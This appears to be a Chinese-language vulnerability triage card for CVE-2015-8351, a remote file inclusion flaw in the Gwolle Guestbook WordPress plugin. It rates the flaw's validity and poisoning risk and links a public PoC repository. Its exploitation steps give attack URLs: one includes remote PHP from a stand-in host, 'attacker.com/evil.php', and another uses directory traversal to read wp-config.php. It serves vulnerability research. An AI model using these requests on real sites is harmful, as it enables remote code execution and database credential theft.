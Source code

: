 ## CVE-2015-8351-Gwolle Guestbook-RFI

**漏洞编号:** CVE-2015-8351

**漏洞类型:** 远程文件包含 (RFI)

**影响应用:** Gwolle Guestbook WordPress Plugin

**危害等级:** 高危，允许远程攻击者执行任意PHP代码。

**影响版本:** < 1.5.4

**利用条件:** 需要`allow_url_include`启用，或者能够利用目录遍历包含本地文件。需要目标安装了存在漏洞版本的Gwolle Guestbook插件

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2015-8351 是 Gwolle Guestbook WordPress 插件中小于 1.5.4 版本的远程文件包含漏洞。当 `allow_url_include` 启用时，攻击者可以通过 `abspath` 参数向 `frontend/captcha/ajaxresponse.php` 发送包含恶意 PHP 代码的 URL，从而执行任意 PHP 代码。即使 `allow_url_include` 未启用，也可以利用目录遍历序列包含和执行任意本地文件。

**有效性分析：**
根据漏洞描述和搜索结果，此漏洞是有效的。网上存在公开的漏洞利用代码。

**投毒风险分析：**
查看提供的 exploit.py 文件和 LICENSE 文件。LICENSE 声明软件进入公共领域，没有发现恶意代码。Exploit.py 脚本实现了发送恶意请求的功能，用于测试目标 URL 是否存在漏洞，如果存在，则通过构造包含恶意代码的 URL 来利用漏洞。该脚本本身是漏洞利用工具，不属于投毒。

**利用方式：**
1.  **检查目标系统是否安装了 Gwolle Guestbook WordPress 插件，并且版本低于 1.5.4。**
2.  **确定 `frontend/captcha/ajaxresponse.php` 文件的可访问 URL。**
3.  **如果 `allow_url_include` 已启用：**
    *   构造一个包含恶意 PHP 代码的 URL。例如：`http://attacker.com/evil.php`，其中 `evil.php` 包含要执行的 PHP 代码。
    *   向 `frontend/captcha/ajaxresponse.php` 发送包含 `abspath` 参数的 HTTP 请求，并将 `abspath` 参数的值设置为包含恶意 PHP 代码的 URL。例如：`targetURL/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://attacker.com/evil.php`。
4.  **如果 `allow_url_include` 未启用：**
    *   尝试使用目录遍历序列（例如 `../../../../`) 来包含本地文件。例如，包含 WordPress 的 `wp-config.php` 文件，可能泄露数据库凭据。`targetURL/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=../../../../../wp-config.php`

**注意：** 成功的利用需要目标系统满足特定的条件，例如 `allow_url_include` 启用或者存在可利用的本地文件。

**项目地址:** [Philip-Otter/CVE-2015-8351_Otter_Remix](https://github.com/Philip-Otter/CVE-2015-8351_Otter_Remix)

**漏洞详情:** [CVE-2015-8351](https://nvd.nist.gov/vuln/detail/CVE-2015-8351)